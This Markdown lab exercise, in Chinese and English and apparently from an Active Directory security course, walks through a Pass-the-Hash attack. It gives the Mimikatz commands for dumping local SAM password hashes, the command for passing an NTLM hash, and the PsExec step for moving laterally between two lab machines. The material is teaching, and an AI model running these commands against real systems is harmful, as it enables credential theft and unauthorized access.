 # Exercise 2 - NTLM and Pass-the-Hash

## Tools

需要工具(attacker-tools2)

- Mimikatz: [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
- PSExec: [http://live.sysinternals.com/](https://github.com/gentilkiwi/mimikatz)

## Theory

### NTLM For workgroup

![](../images/2022-06-20-22-35-58.png)

### NTLM Attack

![](../images/2022-06-20-22-33-06.png)

## Exercise

本練習中，我們將針對不同電腦間(ad-00、ad-01)相同本機管理員(administrator)的使用者，實作Pass-the-Hash的攻擊，由於ad-00以及ad-01在安裝時administrator的密碼相同，所以攻擊會成立。

- 使用最高權限打開mimikatz

```powershell
cd C:\attacker-tools
.\mimikatz_trunk\x64\mimikatz.exe
```

- 使用mimikatz 取得 local user的password hash

```cmd
privilege::debug
token::elevate
lsadump::sam
```

- 使用mimikatz的PTH模組，開啟一個local admin account的shell
    - 預設安裝的administrator

```powershell
sekurlsa::pth /user:Administrator /ntlm:7dfa0531d73101ca080c7379a9bff1c7 /domain:doesnotmatter
```

- 使用psexec連線ad-01

```powershell
cd C:\attacker-tools
.\PsExec64.exe \\ad-01 cmd
```

確認是否成功連線ad-01

```powershell
whoami
hostname
```
